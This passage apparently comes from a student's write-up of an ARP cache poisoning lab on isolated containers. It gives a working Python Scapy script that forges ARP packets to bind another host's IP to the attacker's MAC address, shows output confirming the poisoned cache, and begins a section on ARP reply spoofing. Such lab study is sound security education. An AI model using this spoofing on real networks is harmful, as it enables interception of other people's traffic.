 ### 1.A using ARP request
On the attack host (M), we need to construct an ARP request packet to map host B's IP address to M's MAC address. We then need to send that packet to host A. 

Now let's create our python scapy script:
```python3
#!/usr/bin/env python3
from scapy.all import *

M_mac, M_ip = ("02:42:0a:09:00:69", "10.9.0.105")
A_mac, A_ip = ("02:42:0a:09:00:05", "10.9.0.5")
B_mac, B_ip = ("02:42:0a:09:00:06", "10.9.0.6")

#sending ethernet packet from host M to host A
E = Ether(dst=A_mac, src=M_mac)

A = ARP()
A.op = 1 #1 for ARP request; 2 for ARP reply
#we want host A to associate host B's IP address with host M's MAC address
#so we need to send an ARP binding like (M_mac, B_ip)
A.hwsrc = M_mac
A.psrc = B_ip
#we're sending this ARP request to host A
A.hwdst = A_mac
A.pdst = A_ip

arp_req = E/A
sendp(arp_req)
```

```shell
root@e09f8cbbb9d3:/volumes# python3 1a.py 
.
Sent 1 packets.
```

Now let's hop over to host A and see if it worked:
```shell
root@b744fccdd43d:/# arp -n
Address                  HWtype  HWaddress           Flags Mask            Iface
10.9.0.6                 ether   02:42:0a:09:00:69   C                     eth0
```
Beautiful! Host A now cached that the IP address ```10.9.0.6``` (host B) is now bound to the MAC address ```02:42:0a:09:00:69``` (host M)

### 1.B using ARP reply
On host M, we need to construct an ARP reply packet to map host B's IP address to host M's MAC address. We then need to send this packet to host A.
#### Scenario 1: B's IP is already in A's cache
First we need to make sure host A's ARP table has the correct mapping for host B. We can do so by altering our previous script to send genuine source and destination IP and MAC addresses from host B to host A. The script I used to do that is linked at the top of the writeup. Let's check to see if host A has the correct mapping:
